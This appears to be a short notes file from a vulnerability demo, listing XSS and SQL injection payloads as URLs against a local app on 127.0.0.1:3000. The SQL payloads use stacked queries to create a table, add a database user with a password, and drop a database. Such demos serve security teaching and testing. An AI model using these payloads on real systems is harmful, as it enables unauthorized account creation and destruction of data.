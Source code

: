 # XSS Injection

```
http://127.0.0.1:3000/welcome?name=<script>alert("Hello world")</script>
```

# SQL Injection

#### SQL Generate by GPT, exploit by K7

## Create Table

```
http://127.0.0.1:3000/login?username=test' OR 1=1; CREATE TABLE tableInjected(id INT, name VARCHAR(255)); --
```

## Create user

```
http://127.0.0.1:3000/login?username=test' OR 1=1; CREATE USER 'newUserInjected'@'127.0.0.1' IDENTIFIED BY 'Pass1234'; -    -
```

## Drop database previously created

```
http://127.0.0.1:3000/login?username=test' OR 1=1; DROP DATABASE tableInjected; --
```